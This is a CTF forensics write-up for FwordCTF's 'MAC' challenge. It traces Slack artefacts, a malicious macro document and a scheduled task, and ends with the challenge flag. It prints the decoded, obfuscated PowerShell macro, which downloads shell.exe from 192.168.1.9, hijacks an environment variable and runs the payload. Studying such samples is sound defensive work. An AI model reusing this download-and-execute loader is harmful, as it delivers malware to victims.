 # MAC

## TL;DR
- Reading slack conversation

- dump the registries and get the username and file name

- analyse the macro to get the AttackerIP

- checking the task scheduler to find out that it's running chromebot.py which takes chrome env variable which has been changed with the macro.

## Solution

Starting by exploring the files in order to see how he communicated with the 'group of security group', in **Recent Documents in Autopsy** we see that there is slack there, so dumping slack messages.

PATH: **%AppData%\Roaming\Slack\IndexedDB\https_app.slack.com_0.indexeddb.blob\1\00\5**

example of Slack Parser: https://github.com/0xMohammed/Slack-Parser [ Again credit to [0xMohamedHassan](https://twitter.com/0xMohamedHassan)
]

![](https://i.imgur.com/In9OMRF.jpg)


so there is 3 users [cakix36502,Semah BenAli,x_xWhiteuxx_x] , one admin but since SemahBA created the group so he is **cakix36502**, the FileSenderUsername must be of the other two. 

**FileSenderUsername: Semah BenAli or x_xWhiteuxx_x**

Going to **%AppData%\Roaming\Slack\Storage\root-state.json** 

we get : **downloadPath":"C:\\Users\\FwordCTF\\Downloads\\securityupdate.doc.zip** -> ReceivedFileOriginalPath: **Downloads**

Now Checking the suspicious file it was password protected, going back to the messages from Slack, we find the password which is **fwordteam**

there is doc file, while opening asks for Enable editing, so macro one?

### Macro Analysis

I opened in a VM and started [CMD WATCHER](https://www.kahusecurity.com/posts/cmd_watcher_and_maldocs.html) and Enabled the editing and received this: 

![](https://i.imgur.com/JWeM0xM.jpg)

decoding it and we get:

```
$Managerrmo='Venezuelahwf';
$capacitoripk = '657';
$depositkjo='Internaljiw';
$Reverseengineeredifq=$env:userprofile+'\'+$capacitoripk+'.exe';
$Ovalnfc='Handcrafted_Plastic_Pantsrod';
$applicationpmi=&('ne'+'w-ob'+'ject') NEt.WEBCLIenT;
$Practical_Wooden_Gloveszih='httasdp://asd192asd.asd168asd.1asd.9asd/shasdellasd.easdxe'."Replace"("asd","");
$violetcuz='hackingtho';
foreach($Arizonavsf in $Practical_Wooden_Gloveszih){try{$applicationpmi."DO`Wnl`oadfIle"($Arizonavsf, $Reverseengineeredifq);
$Yemennoo='Borderswbi';
[System.Environment]::SetEnvironmentVariable('chrome.exe',$env:userprofile+'\'+$capacitoripk+'.exe')If ((&('Get-'+'It'+'em') $Reverseengineeredifq)."LEn`GTH" -ge 21057) {[Diagnostics.Process]::"S`TaRT"($Reverseengineeredifq);
$Bolivar_Fuertenor='SCSImlh';
break;
$Regionalbpb='Auto_Loan_Accounthzi'}}catch{}}$Liaisonqvc='bestofbreedqit
```

Looking at the code: 

- ``httasdp://asd192asdasd168asd1asd9asd/shasdellasdeasdxe'"Replace"("asd","");`` which is: ``http://192.168.1.9/shell.exe`` so the IP is **192.168.1.9** and The file will be downloaded under %userprofile%\657.exe

- **IPSourceOfTheDownloadedFile: 192.168.1.9**

- **NewMaliciousFile is 657.exe**

- Also the script is setting env variable chrome.exe value to 657.exe

Now The Last Part is left **WhatTriggeredTheMaliciousFile**

Okay going back to **Recent Documents** there is **Checking The Binary.lnk** which is under C:\Windows\System32\Tasks\Checking the Binary

Okay so this is from Task Scheduler.

Checking it -> C:\Windows\System32\Tasks\Checking the Binary

![](https://i.imgur.com/NgTmSj2.jpg)

there is:

```
<Exec>
      <Command>C:\Users\FwordCTF\AppData\Local\Microsoft\WindowsApps\python.exe</Command>
      <Arguments>chromebot.py</Arguments>
      <WorkingDirectory>C:\Program Files\Google\Chrome\Application\</WorkingDirectory>
</Exec>
 ```

Executing python script chromebot.py which is under **C:\Program Files\Google\Chrome\Application\***

Script content:

```python
import os
import pyautogui as pe
import time
chrome_path = os.getenv("chrome.exe")
os.startfile(chrome_path)
time.sleep(1)
# exeucting the binary
for i in range(2):
	pe.click(707,275)
time.sleep(5)
pe.hotkey('alt','f4')
print ("Okay so it's working fine")
```

So it's getting the value of **chrome.exe** which has been set before to 657.exe, going to the path and made it a startfile path, and double clicking the binary? 

So that's **WhatTriggeredTheNewMaliciousFile**

Flag Format : FwordCTF{FileSenderUsername-IPSourceOfTheDownloadedFile-ReceivedFileOriginalPath-NewMaliciousFile-WhatTriggeredTheNewMaliciousFile}

Putting all the pieces together:

Flag is: **FwordCTF{x_xWhiteuxx_x-192.168.1.9-Downloads-657.exe-chromebot.py}** 
